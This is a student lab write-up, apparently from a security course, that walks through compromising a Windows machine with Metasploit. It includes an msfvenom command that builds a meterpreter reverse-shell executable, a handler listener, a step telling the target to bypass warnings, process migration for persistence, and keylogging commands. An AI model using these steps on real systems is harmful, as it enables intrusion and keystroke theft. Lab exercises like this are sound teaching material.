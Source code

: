 # EX 6 Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/0aaf688d-2d73-4d34-8453-3e64cc703b24)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > malware.exe
#### OUTPUT
![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/47c3b051-8684-488d-895c-bea9f2d2604e)


copy the malware.exe into the apache /var/www/html folder

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/750b6c58-84d1-4614-b9fc-09fe2fedd029)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/5650d9f0-c4c1-411a-a21a-5a45ffa361a0)


Check the status of apache2

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/0441b4c9-e7d5-4318-96cb-1a6b720c4b8a)


Invoke msfconsole:
![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/c9292e2c-4905-421a-8742-a940f596b4f5)

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/54aeae61-a82f-4069-b2da-a6673e89135f)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a6b73051-a143-4740-b3d9-27c23762218f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/7e6e28fb-b095-4fd1-81f8-a0292f82c9a2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)






## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
